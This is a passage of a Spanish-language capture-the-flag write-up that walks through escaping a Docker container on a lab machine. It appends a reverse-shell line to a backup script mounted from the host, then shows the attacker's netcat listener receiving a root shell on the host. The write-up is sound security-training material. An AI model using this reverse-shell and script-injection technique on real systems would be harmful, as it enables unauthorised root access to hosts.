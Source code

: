 En opt hay una carpeta backups:
```bash
root@ca898ab20f9a:/opt/backups# ls -la
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Sep  3 06:36 ..
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Sep  3 06:56 backup.tar

...

root@ca898ab20f9a:/opt/backups# cat backup.sh 
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

En el archivo que hemos encontrado vemos como se ha montado el container:
```bash
cat ../launch.sh 
#!/bin/bash
docker run -d -p 80:80 -v /root/container/backup:/opt/backups --rm box
```

Hay una montura de root/container/backup a nuestro /opt/backups del docker.

Vemos que en el host original se ejecuta lo siguiente (otra forma de verlo sería mediante .bash_history):
```bash
cat backup.sh   
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Como el [backup.sh](http://backup.sh) está vinculado al host por la montura, podemos modificarlo y hacer que nos envíe una revshell:
```bash
echo "/bin/bash -c \\"bash -i >& /dev/tcp/10.9.1.72/4444 0>&1\\"" >> backup.sh
```

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.9.1.72] from (UNKNOWN) [10.10.170.23] 48338
bash: cannot set terminal process group (8499): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# hostname -I 
hostname -I
10.10.170.23 172.17.0.1
```
